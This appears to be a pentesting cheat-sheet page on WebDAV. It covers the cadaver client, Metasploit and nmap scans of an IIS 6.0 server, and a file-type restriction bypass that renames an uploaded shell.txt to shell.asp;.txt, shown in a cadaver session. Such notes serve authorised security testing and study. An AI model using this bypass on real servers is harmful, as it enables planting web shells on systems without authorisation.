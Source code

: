 # Cadaver
Cadaver is a shell tool for WebDAV.

*cadaver supports file upload, download, on-screen display, namespace operations (move and copy), collection creation and deletion, and locking operations.
Its operation is similar to the standard BSD ftp(1) client and the Samba Project's smbclient(1). A user familiar with these tools should be quite comfortable with cadaver.*

To do some enumeration if webDAV is enabled, try the following scans with Metasploit and NMAP.
## Metasploit Scan for WebDAV

The webdav_test module from [here](https://github.com/sussurro/Metasploit-Tools/blob/master/modules/auxiliary/scanner/http/webdav_test.rb) is required. Simply add it into the Metasploit modules directory to use it.
```
msf5 auxiliary(scanner/webdav_test) > run
[*] X.X.X.X/_vti_pvt/ (Microsoft-IIS/6.0) has unknown ENABLED
[*] X.X.X.X/_vti_pvt/ (Microsoft-IIS/6.0) Allows Methods: OPTIONS, TRACE, GET, HEAD, DELETE, COPY, MOVE, PROPFIND, PROPPATCH, SEARCH, MKCOL, LOCK, UNLOCK
[*] X.X.X.X/_vti_pvt/ (Microsoft-IIS/6.0) Has Public Methods: OPTIONS, TRACE, GET, HEAD, DELETE, PUT, POST, COPY, MOVE, MKCOL, PROPFIND, PROPPATCH, LOCK, UNLOCK, SEARCH
[*] X.X.X.X/_vti_pvt/ exposed ips X.X.X.X
[*] X.X.X.X/_vti_pvt/ exposed paths http://X.X.X.X/_vti_pvt/,http://X.X.X.X/_vti_pvt/access.cnf,http://X.X.X.X/_vti_pvt/botinfs.cnf,http://X.X.X.X/_vti_pvt/bots.cnf,http://X.X.X.X/_vti_pvt/deptodoc.btr,http://X.X.X.X/_vti_pvt/doctodep.btr,http://X.X.X.X/_vti_pvt/frontpg.lck,http://X.X.X.X/_vti_pvt/linkinfo.btr,http://X.X.X.X/_vti_pvt/service.cnf,http://X.X.X.X/_vti_pvt/service.lck,http://X.X.X.X/_vti_pvt/services.cnf,http://X.X.X.X/_vti_pvt/svcacl.cnf,http://X.X.X.X/_vti_pvt/uniqperm.cnf,http://X.X.X.X/_vti_pvt/writeto.cnf
[*] Attempting to create /_vti_pvt/WebDavTest_T3Dw93X32F
[*] X.X.X.X/_vti_pvt/ is WRITEABLE
[*] Checking extensions for upload and execution
[*] Attempting to use IIS rename/copy to bypass restrictions
[*] Attempting to cleanup /_vti_pvt/WebDavTest_T3Dw93X32F
[*] Uploadable files are: cfm,html,jhtml,jsp,php,pl,txt
[*] Executable files are: html,txt
[*] IIS rename/executable files are: asp,html,txt
[*] Scanned 1 of 1 hosts (100% complete)
[*] Auxiliary module execution completed
msf5 auxiliary(scanner/webdav_test) >
```
## NMAP NSE Scan for WebDAV
You can use `nmap` to perform a [webdav scan](https://nmap.org/nsedoc/scripts/http-webdav-scan.html) with the following syntax:

```
root@kali:~# nmap --script http-webdav-scan -p80,8080 <target>
```

A Patch must be used to compile this in Kali: [skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch](http://www.skullsecurity.org/blogdata/cadaver-0.23.2-h4x.patch)

```
root@kali:~/pwnt/metasploit-framework/exploits/X.X.X.X/cadaver-0.23.2# ./cadaver X.X.X.X
dav:/> 
```

To attempt to bypass file type restriction upload:

1. upload the file as `shell.txt`
2. move / copy the file `shell.txt` to `shell.asp;.txt`

```
## Cadaver Shell Syntax
dav:/_vti_pvt/> copy win3333.txt win3333.asp;.txt
Copying `/_vti_pvt/win3333.txt' to `/_vti_pvt/win3333.asp%3b.txt':  failed:
400 Bad Request
dav:/_vti_pvt/> move win3333.txt win3333.asp;.txt
Moving `/_vti_pvt/win3333.txt' to `/_vti_pvt/win3333.asp%3b.txt':  succeeded.
dav:/_vti_pvt/> 
```
## References Further Reading
* [http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html](http://carnal0wnage.attackresearch.com/2010/05/more-with-metasploit-and-webdav.html)
* [https://github.com/sussurro/Metasploit-Tools/blob/master/modules/auxiliary/scanner/http/webdav_test.rb](https://github.com/sussurro/Metasploit-Tools/blob/master/modules/auxiliary/scanner/http/webdav_test.rb)
* [http://code.google.com/p/davtest/](http://code.google.com/p/davtest/)
